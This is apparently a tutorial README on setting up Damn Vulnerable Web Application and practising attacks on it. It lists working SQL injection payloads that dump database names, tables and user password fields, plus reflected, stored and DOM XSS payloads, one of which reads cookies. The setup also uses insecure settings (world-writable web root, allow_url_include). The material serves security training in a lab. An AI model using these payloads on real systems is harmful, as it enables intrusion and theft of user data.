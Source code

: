 # Implementing SQL Injection & Cross Site Scripting using DVWA

### DVWA
Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment.

The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficulty, with a simple straightforward interface. Please note, there are both documented and undocumented vulnerabilities with this software. This is intentional. You are encouraged to try and discover as many issues as possible.

#### Setting up DVWA
- **Step 1** : Type the following commands </br>
  Setting up Apache Web server, Installting DVWA, Installing Mysql, 
  ``` 
  $ sudo apt install apache2 
  $ sudo apt-get install git
  $ cd /var/www/html/
  $ sudo git clone https://github.com/ethicalhack3r/DVWA.git
  $ sudo chmod -R 777 /var/www/html/DVWA/
  $ sudo apt install mysql-server
  $ mysql -u root -p
  $ sudo service apache2 restart
  $ sudo service mysql restart
  ```
  </br>
- **Setp 2**: Type the following commands</br>
  Configure DVWA
  ```
  $ sudo vim /var/www/html/dvwa/config/config.inc.php.dist
  ```
  Add the database name, user and password of the mysql database in the php file
  ```
  $ sudo vim /etc/php5/apache2/php.ini
  ```
  Add the following lines </br>
   > **Enable Allow_url_fopen** </br>
   > **Enable Allow_url_include**
   </br>
- **Setp 3**: </br>
  Starting DVWA </br>
  Open your Browser and type http://127.0.0.1/DVWA/setup.php </br>
  Complete the basic setup process and you are ready to use your DVWA
  
### SQL Injection
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate an SQL injection attack to compromise the underlying server or other back-end infrastructure, or perform a denial-of-service attack

- Display the hostname of our web app </br>
  ```' union select null, @@hostname#```</br>
  
- Display Database User </br>
  ```test' union select null, user() #``` </br>
  
- Display the Database Name </br>
  ```test' union select null, database() #```</br>
  
- List all tables in the information schema. </br>
  ```test' and 1=0 union select null, table_name from information_schema.tables #```</br>
  
- Display all the column contents in the information schema users table </br>
  ```test' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #```</br>
  
- List all user tables in the information schema </br>
  ```test' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'# ```</br>


### Cross Site Scripting (XSS)
Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

- Reflected XSS payloads </br>
  **Easy** :  ```<script>alert(“xss”)</script> ``` </br>
  **Medium** : ```<Script>alert(“Vedant”)</Script>```</br>
  **Hard** : ```<img src=x onerror=alert(“falcon”)>``` </br>

- Stored XSS Payloads</br>
  **Easy** : ```<script>alert(document.domain)</script>``` </br>
  **Medium** : ```<img src=x onerror=alert(document.domain)>```<br>
  **Hard** : ```<body onload=alert(“bingo”)>```

- DOM XSS Payloads </br>
  **Easy** : ```/?default=<script>alert(1)</script>``` </br>
  **Medium** : ```/?default=English#<script>alert(1)</script>``` </br>
  **Hard** : ```/?default=English#<script>alert(document.cookie)</script>```
